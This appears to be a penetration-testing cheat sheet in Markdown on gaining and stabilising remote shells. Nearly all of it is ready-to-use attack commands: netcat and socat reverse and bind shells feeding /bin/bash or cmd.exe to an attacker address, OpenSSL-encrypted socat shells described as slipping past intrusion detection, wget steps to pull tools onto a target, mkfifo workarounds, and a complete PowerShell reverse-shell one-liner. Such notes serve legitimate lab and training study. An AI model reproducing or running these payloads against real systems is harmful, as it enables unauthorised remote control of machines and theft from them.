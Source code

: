 # Shells

bash or sh on Linux, cmd.exe or Powershell on WindowsReverse
Shell - attack runs exploit so remote server sends attacker command line access. Good for bypassing target firewall rules.
Bind shell - attacker runs exploit opening a port hosting command line on the server and then connects it. No config on home network required.

# Malicious shellcode

- netcat - set up network interaction and listeners to receive shellssocat - netcat on steroids, typically more stable, but harder syntax and not default
- Metasploit auxiliary/multi/handler - stable shells and meterpreter shell, also makes it easy to handle stages payloads
- msfvenom - multi-capable payload generating tool, including reverse and bind shells
- *reference SecLists repo for good wordlists / creds*

### Reverse Shell (linux ex):

Local > `sudo nc -lvnp 443`, to set up a listener for HTTPS
Target > `nc MY_IP PORT -e /bin/bash`, to connect to listener serving bash

### Bind Shell (windows ex):

Target > `nc -lvnp PORT -e "cmd.exe"`
Local > `nc TARGET_IP PORT`

# Interactive vs Non-interactive Shell

- Interactive allows a use to be prompted by and respond to executed programs
- Non-interactive is incapable of providing this functionality. As a result, commands like ssh that prompt for login don't work without a shell being upgraded to interactive.

# Netcat Shell Stabilization

*typically harder in Windows than in Linux*

### Technique 1: Python (Linux)
- `python -c 'import pty;pty.spawn("/bin/bash")`  *spawns a featured bash shell, may need to specify python version*
- `export TERM=xterm`, sets terminal emulator to xterm for more features
- CTRL-Z, to background shell
- `stty raw -echo; fg`, turn off base terminal echo (gives tab autocomplete, arrow keys, CTRL-C) then foreground shell
    *if shell dies, base terminal is invisible, use `reset` to get it back*

### Technique 2: rlwrap (Windows & Linux)
- `sudo apt install rlwrap`, premade program that gives most shell features
- `rlwrap nc -lvnp PORT`, run program on nc
- (Linux) CTRL-Z, then `stty raw -echo; fg`, turn off base terminal for complete stabilization

### Technique 3: Socat (Linux)
- Host python server in socat **binary** directory, for upload to target
- `wget SERVER/socat -O /tmp/socat` on target to get the binary file (no dependencies) for execution

### Extra (text editor usability)
- `stty -a` in another terminal to get terminal display info
- `stty rows XX` and `stty cols XX` on target using previous values

# socat

*point to point connector ie. keyboard to port, file to port, port to port*

### Reverse Shells
- `socat TCP-L:PORT -`, basic listener
- `socat TCP:MY_IP:PORT EXEC:powershell.exe,pipes`, listener on Windows (pipes for unix style I/O)
*run the previous commands on the target for a bind, and `socat TCP:TARGET_IP:PORT -` on local machine ofr a bind shell*

### Interactive Shell (tty)
1.  ``socat TCP-L:PORT FILE:`tty`,raw,echo=0`` , sets up connection to port with a featured shell, but it must have socat installed
2. upload socat binary to target ( `python3 -m http.server` in socat dir -> `wget` on target)
3. `socat TCP:MY_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane` , hosts interactive shell on target
>bash -li, -l is "login shell" meaning, ini files are read from /home/*user*, and -i means interactive
> pty (pseudo-teletype), allocates a pseudoterminal on the target via a "pipe" -- part of the stabilization process
> stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
> sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
> setsid, creates the process in a new session
> sane, stabilises the terminal, attempting to "normalise" it.


# socat Encrypted Shells

socat can perform shell encryption which often passes IDS by default. *Replace `TCP` with `OPENSSL` to create **encrypted** socat shells*

### Certificate Generation
- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 365 -out shell.crt`, to generate a 2048 bit RSA cert, self-signed, valid for a year
- `cat shell.key shell.crt > shell.pem`, merges the key and cert in a pem file, cert **must** be used on **listening machine**
  
### Reverse Shell
- `socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0 -` , attacker sets up openSSL listener with self-signed cert, but tells it not to verify it
- `socat OPENSSL:ATTACK-IP:PORT,verify=0 EXEC bin/bash` , target offers shell control, no verification
  
### Bind Shell
- `socat OPENSSL-LISTEN:PORT,cert=shell.pem,verify=0,EXEC:cmd.exe,pipes` , target machine listens
- `socat OPENSSL:TARGET-IP:PORT,verify=0 -` , attacker interacts with hosted shell

# Common Shell Payloads
*Lo-spec reverse shells for Windows and Linux*

- netcat for windows, `nc.exe`, located at: `/usr/share/windows-resources/binaries` in kali
- `-e` , allows for process execution on connnection, ie. `/bin/bash` 
-  ex. `nc -lvnp 8000 -e /bin/bash` hosts terminal to a connector (bind)
-  ex. `nc 10.10.10.69 8000 -e /bin/bash` offers terminal to listener (reverse)

### -e Exclusion Workaround (Linux)
`mkfifo /tmp/f; nc -lvnp 8000 < /tmp/f | /bin/sh > tmp/f 2>&1; rm /tmp/f`   (BIND)
 - mkfifo, creates a named pipe at location
 - nc listener, takes input from (currently empty) pipe
 - nc listener outputs to a spawned sh session (the terminal commands from the attacker)
 - sh session outputs stdout and stderror to pipe (which feeds nc, giving feedback to the attacker)
`mkfifo /tmp/f; nc 10.10.10.69 8000 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f` (REVERSE)

### -e Exclusion (Windows)
`powershell -c $client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
- 